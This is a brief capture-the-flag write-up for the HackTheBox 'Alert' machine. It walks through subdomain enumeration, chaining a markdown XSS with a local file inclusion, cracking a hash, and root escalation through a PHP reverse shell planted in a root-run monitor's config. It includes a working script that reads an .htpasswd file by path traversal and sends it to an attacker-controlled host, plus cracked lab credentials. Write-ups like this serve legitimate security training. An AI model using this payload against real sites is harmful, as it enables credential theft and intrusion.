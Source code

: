 # Alert

# Nmap

<figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

# Site enumeration

First off I looked for subdomains and found statistics. It is protected by a http-auth I tried to bruteforce but could not get in.

On the main page I notice 2 things: 1) we can do XSS with the markdown feature 2) There is LFI on the file param. Let's combine this to fetch the statistics password hash

```
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://<MY_IP>:8000/?file_content=" + encodeURIComponent(data));
  });
</script>
```

We upload the script and get a hash back to our local server i crack it and get creds. albert:manchesterunited

We can login to the statistics page now. But there is nothing there let's try ssh. And we are in!!

# Priv esc

Running netstat -tunlp I found an open port on 8080 lets download the index file. It is called website monitor let's try locate it. We find it in /opt

Looking at the config file we see that it is run by root. So if we upload a php reverse shell we should get root. Let's try we get permissions denied... but if we put it in the config file it works!

We wget the new page and get root!

PAWNDDD

